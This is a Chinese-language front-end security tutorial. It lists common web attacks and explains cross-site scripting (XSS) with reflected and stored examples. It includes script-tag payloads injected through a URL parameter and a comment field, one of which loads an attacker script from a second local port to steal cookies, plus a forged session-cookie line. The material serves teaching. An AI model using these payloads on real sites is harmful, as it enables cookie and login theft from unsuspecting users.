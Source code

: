 ```yaml
---
title: 前端安全
order: 100
layout: false
hideInMenu: true
---
```


# 一.常见web攻击
- XSS
- CSRF
- 点击劫持
- SQL注入
- OS注入
- 请求劫持
- DDOS

## 1.XSS（Cross Site Scripting）
>跨站脚本攻击
>XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS重叠，所以只能叫 XSS。跨站脚本攻击是指通过
>存在安全漏洞的Web网站注册用户的浏览器内运行非法的非本站点HTML标签或JavaScript进行的一种攻击。
>跨站脚本攻击有可能造成以下影响:
> - 利用虚假输入表单骗取用户个人信息。
> - 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
> - 显示伪造的文章或图片。

> XSS攻击分类
- 反射型 - url参数直接注入

```
// 普通 
http://localhost:3000/?from=china  

// alert尝试 
http://localhost:3000/?from=<script>alert(3)</script> 

// 获取Cookie 
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script> // 短域名伪造 https://dwz.cn/  

// 伪造cookie入侵 chrome 
documentcookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

- 存储型 - 存储到DB后读取时注入
```
// 评论 
<script>alert(1)</script> 

// 跨站脚本注入 
我来了<script src="http://localhost:4000/hack.js"></script>
```
### 1.1 XSS攻击的危害 - Scripting能干啥就能干啥
- 获取页面数据
- 获取Cookies
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户